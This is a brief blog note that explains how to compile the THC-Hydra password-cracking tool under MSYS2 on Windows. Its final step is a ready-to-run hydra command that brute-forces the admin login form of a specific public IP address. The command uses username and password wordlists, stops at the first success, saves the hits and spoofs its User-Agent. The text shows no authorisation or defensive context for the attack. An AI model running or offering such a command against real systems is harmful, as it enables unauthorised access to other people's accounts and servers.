 ```yaml
---
author: XhstormR
categories:
- Notes
date: 2019-03-01T14:11:28+08:00
title: 构建 hydra
---
```


<!--more-->

Updated on 2019-03-01

> [MSYS2](https://mirrors.ustc.edu.cn/help/msys2.html)
>
> [hydra](https://github.com/vanhauser-thc/thc-hydra/archive/master.zip)

## Step
```bash
D:\Work\Download\thc-hydra-master>

pacman -Syu
pacman -S --noconfirm --needed gcc make

./configure
make
make install

hydra -V -F -L username.txt -P password.txt -o ok.txt 'http-post-form://222.69.159.53:80/cm_admin/login.aspx:txtloginid=^USER^&txtpsw=^PASS^:F=password incorrect!:H=User-Agent\: wget'
```

## Reference
* 依赖：
  * msys-2.0.dll：[src](https://mirrors.ustc.edu.cn/msys2/msys/sources/msys2-runtime-2.11.2-1.src.tar.gz) | [bin](https://mirrors.ustc.edu.cn/msys2/msys/x86_64/msys2-runtime-2.11.2-1-x86_64.pkg.tar.xz)
* [MSYS2](https://www.msys2.org)
